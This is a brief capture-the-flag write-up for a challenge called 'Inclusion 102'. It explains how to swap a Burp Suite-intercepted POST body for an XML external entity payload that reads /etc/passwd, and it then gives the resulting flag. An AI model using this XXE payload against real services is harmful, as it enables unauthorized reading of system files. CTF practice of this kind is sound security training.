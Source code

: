 # Inclusion 102
XML injection
Use burpsuite to get the POST request, modify the body of it to this and delete the other body to receive the flag   
```<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY ext SYSTEM "file:///etc/passwd" >]><function><getConversation>&ext;</getConversation></function>```
``FLAG-QnQLhFCAk02vwXGh38z11OZ1RCgJLwop``
